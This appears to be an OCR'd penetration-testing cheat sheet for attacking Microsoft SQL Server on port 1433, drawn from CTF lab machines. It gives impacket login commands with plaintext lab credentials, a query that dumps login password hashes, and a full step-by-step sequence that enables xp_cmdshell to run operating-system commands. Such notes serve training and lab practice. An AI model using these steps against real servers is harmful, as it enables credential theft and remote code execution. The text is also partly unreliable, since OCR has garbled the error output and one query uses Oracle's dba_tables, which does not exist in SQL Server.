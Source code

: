 ```yaml
---
description: >-
  Enumerate MSSQL service.
title: MSSQL (tcp-1433)                  # Add title here
date: 2023-01-22 08:00:00 -0600                           # Change the date to match completion date
categories: [01 Enumeration, MSSQL (tcp-1433)]                     # Change Templates to Writeup
tags: [mssql enumeration, mssql rce]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

#### Connection

```bash
impacket-mssqlclient sa@10.11.1.31 -p 1433 -db tempdb
# Sometimes you need to specify a Windows Authentication
impacket-mssqlclient Archetype/sql_svc:M3g4c0rp123@10.129.95.187 -windows-auth
```
#### MSSQL basic commands

```bash
# Show databases available
select name from sys.databases
# It also works for the same but as a store procedure
sp_databases
# Select the database for list its content
use streamio_backup
# List the name of the tables from a database
select * from information_schema.tables;
# List all the tables from a db
select table_name FROM dba_tables;
# List all from a table
select * from users;
# List user permissions
select sp.name as login, sp.type_desc as login_type, sl.password_hash, sp.create_date, sp.modify_date, case when sp.is_disabled = 1 then 'Disabled' else 'Enabled' end as status from sys.server_principals sp left join sys.sql_logins sl on sp.principal_id = sl.principal_id where sp.type not in ('G', 'R') order by sp.name;
```
Examples:
[[StreamIO#^2bc6f1]]
[Scrambled](https://shuciran.github.io/posts/Scrambled/#fnref:mssql-enum)

#### Command execution from MSSQL
If we have access to the MSSQL we can try to execute commands from MSSQL:
```bash
SQL> xp_cmdshell "whoami"
[-] ERR0R(TALLY): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component ,xp_cmdshell’ because this component is turned off as part of the security figuration for this server. A system administrator can enable the use of ,xp_cmdshell' by using sp_configure. For more information about enabling 'xp.cmdshell', search for p_cmdshell' in SQL Server Books Online.
SQL> sp_configure "xp_cmdshell", 1
[-] ERR0R(TALLY): Line 62: The configuration option 'xp_cmdshell' does not exist, or it may be an advanced option.
SQL> sp_configure "show advanced options", 1
[*] INF0(TALLY): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> reconfigure
SQL> sp_configure "xp_cmdshell", 1
[*] INF0(TALLY): Line 185: Configuration option 'xp.cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> reconfigure
SQL> xp_cmdshell "whoami"
```
Examples:
[Scrambled](https://shuciran.github.io/posts/Scrambled/#fnref:mssql-command-execution)
Connect to database joined to the domain controller:
```bash
impacket-mssqlclient scrm.local/sa:sa@10.10.11.168
```
Examples:
[Scrambled](https://shuciran.github.io/posts/Scrambled/#fnref:mssql-connection)
